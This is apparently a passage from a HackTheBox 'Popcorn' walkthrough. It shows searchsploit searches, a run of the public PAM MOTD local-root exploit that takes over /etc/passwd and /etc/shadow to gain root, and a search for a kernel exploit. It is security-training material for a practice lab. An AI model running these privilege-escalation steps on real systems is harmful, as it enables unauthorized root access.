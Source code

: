 ```
┌──(Hades㉿10.10.14.5)-[2.8:26.0]~/walkthrough/hackthebox/popcorn
└─$ searchsploit motd
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tam | linux/local/14273.sh
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tam | linux/local/14339.sh
MultiTheftAuto 0.5 patch 1 - Server Crash / MOTD De | windows/dos/1235.c
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I used exploit `linux/local/14339.sh` to get root in `Popcorn server`.

```
www-data@popcorn:/tmp$ bash 14339.sh
bash 14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/tmp# whoami
whoami
root
```

### 'Full-Nelson.c Exploit Kernel

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/popcorn)

Also check kernel, the OS version is `2.6.31-14-generic-pae`.

```
www-data@popcorn:/home/george$ uname -a
uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/home/george$ cat /etc/issue
cat /etc/issue
Ubuntu 9.10 \n \l
```

Search exploit using `searchsploit`

```
┌──(Hades㉿10.10.14.5)-[2.2:50.4]~
└─$ searchsploit Linux Kernel 2.6 Ubuntu
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
<snip>
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full | linux/local/15704.c
<snip>
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
